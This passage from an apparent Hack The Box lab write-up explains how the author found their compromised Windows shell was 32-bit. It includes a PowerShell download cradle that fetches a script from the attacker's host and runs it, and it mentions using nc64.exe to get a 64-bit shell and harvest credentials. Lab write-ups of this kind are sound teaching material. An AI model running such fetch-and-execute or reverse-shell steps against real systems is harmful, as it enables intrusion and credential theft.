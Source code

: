 
My shell loads as a 32-bit process:

    
    
    PS C:\> [Environment]::Is64BitProcess
    False
    

That’s because `php-cgi` is running as a 32-bit process, as shown by the
`Get-32BitProcess` function as defined
[here](https://stackoverflow.com/a/43773871):

    
    
    PS C:\> IEX(New-Object Net.WebClient).downloadString('http://10.10.16.17:8888/process_arc.ps1')
    PS C:\>Get-32BitProcess
    
    Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName          
    -------  ------    -----      -----     ------     --  -- -----------          
         58       4     2240       3524       0.00   2668   0 cmd                  
        435      29     8636      29692       0.69   6984   1 OneDrive             
        196      12     3376       9804       0.02    936   1 OneDriveStandalone...
        116      14     6296      11844       0.17   6972   0 php-cgi              
        664      47    48864      60688       3.31   2764   0 powershell  
    

Thanks to InvertedClimbing for the help on that one.

I played with things to try to force it into a 64-bit process (without using
Metasploit to migrate), but was unable to. Eventually, I used `nc64.exe` to
get a 64-bit shell, and was able to get the credentials. It was a good lesson
learned to always check the arch of your shell process.

[](/2018/07/15/htb-bart.html)


